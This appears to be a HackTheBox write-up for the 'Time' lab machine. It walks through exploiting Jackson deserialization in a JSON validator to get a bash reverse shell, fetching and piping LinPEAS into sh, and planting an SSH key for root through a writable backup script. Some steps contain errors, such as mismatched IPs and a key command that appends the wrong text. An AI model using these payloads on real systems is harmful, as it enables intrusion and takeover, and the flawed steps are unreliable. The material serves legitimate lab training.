 ```yaml
---
title: " HackTheBox {Time}"
description: Walkthrough of the Time Machine on Hackthebox.
---
```

![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)

## {0x1} Scanning port

```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is the ssh/22 port and the 80 / http port which are open.

We are going to see the http/80 port to see what is interesting.

We see an online json beautifier & Validator with 2 options, "Beatify" & "Validate!(Beta)".

![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

I intercepted both options in burpsuite and i have just input sample JSON datain the input field, select Beautify option and click on the PROCESS button. We can see this working. 
Now try the same on "Validate! (Beta)" options : 

![a](https://media.discordapp.net/attachments/490431433559506954/832954307493756969/unknown.png)

You got an error ! 
```
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```


## {0x2} Foothold

I pasted the error message: ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` on google, I came across an article from stackoverflow.  <a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">here article</a>

The error is related to Jackson Polymorphic Deserialization expected START_ARRAY.

Now, you need to create a inject.sql files and add a reverse shell to have it call back to me. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```

Now, start a netcat listener :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Now inject the payload to : "Validate!(Beta)".

```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/inject.sql'”}]
```

and you got a reverseshell running as the user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.214] 42212
```

Now for a good stable shell, type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```
Got the user flag : 

```
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```
## {0x3} Privilege Escalation

Try to upload linpeas ( LinPEAS is a script that search for possible paths to escalate privileges on Linux )

Install linpeas <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start python server where are your linpeas.sh file and curl to the target machine.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

We can see that root has been accessing this file: “/usr/bin/timer_backup.sh”. Which is owned by your user and writeable.

![ak](https://media.discordapp.net/attachments/490431433559506954/832944544067878932/unknown.png)

You need to create your ssh key, add our SSH public key to the authorized_keys file on the server. To do this follow commands :

```sh
ssh-keygen
( no passphrase ) 
Copy your id_rsa.pub key 
and paste this command in target machine : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Now just : ```chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Got the root flag 

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```
## Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : https://github.com/x0ld
- Twitter : @x0ld7
- ![ak](https://www.hackthebox.eu/badge/image/491690)

